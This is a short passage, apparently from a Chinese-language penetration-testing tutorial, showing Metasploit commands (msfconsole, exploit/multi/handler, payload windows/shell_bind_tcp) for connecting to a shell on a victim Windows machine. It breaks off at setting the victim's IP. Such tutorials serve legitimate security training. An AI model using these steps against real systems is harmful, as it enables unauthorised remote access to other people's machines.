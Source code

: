 ![](img/00270.jpeg)

现在，它正在等待我们的连接。从我们的攻击机器上，启动 Metasploit：

```
$ msfconsole
```

然后，选择处理程序以连接到受害者机器：

```
 $ use exploit/multi/handler
```

现在，选择我们的有效载荷，即`windows/shell_bind_tcp`：

```
$ set payload windows/shell_bind_tcp
```

然后，设置受害者机器的 IP 地址：

![](img/00271.jpeg)
